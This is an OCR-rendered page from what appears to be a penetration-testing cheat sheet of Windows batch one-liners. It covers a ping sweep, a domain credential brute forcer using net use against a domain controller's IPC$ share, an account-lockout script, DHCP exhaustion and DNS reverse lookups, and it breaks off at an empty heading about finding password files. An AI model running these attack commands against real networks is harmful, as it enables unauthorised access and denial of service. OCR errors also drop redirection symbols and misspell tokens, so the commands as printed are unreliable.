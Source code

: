 ## Windows scripting 

If scripting in batch file, variables must be preceeded with %%, i.e. %%i

### Nested for ping sweep

```text
for /L %i in (10,1,254) do@ (for /L %x in (10,1,254) do@ ping -n 1 -w 100
10.10.%i.%x 2 nul 1 find "Reply" && echo 10.10.%i.%x live.txt)
```

### loop through file

```text
for /F %i in ( file ) do command
```

### Domain brute forcer

```text
for /F %n in (names.txt) do for /F %pin (pawds.txt) do net use \\DC01\IPC$
/user: domain \%n %p 1 NUL 2 &1 && echo %n:%p && net use /delete
\\DCOl\IPC$ NUL
```

### Account lockout\(lockout.bat\)

```text
@echo Test run:
for /f %%U in (list.txt) do @for /1 %%C in (1,1,5) do @echo net use \\WIN-
1234\c$ /USER:%%U wrongpass
```

### DHCP exhaustion

```text
for /L %i
1.1.1.%i
in (2,1,254) do (netsh interface ip set address local static
netrnask gw ID %1 ping 127.0.0.1 -n l -w 10000 nul %1)
```

### DNS reverse lookup

```text
for /L %i in (100, 1, 105)
dns.txt && echo Server:
do @ nslookup 1.1.1.%i I findstr /i /c:''Name''
1.1.1.%i dns.txt
```

### Search for files beginning with the work "PASS" and the print if it's a directory, file data/time, relative path, actual path and size \(@variable are optional\)
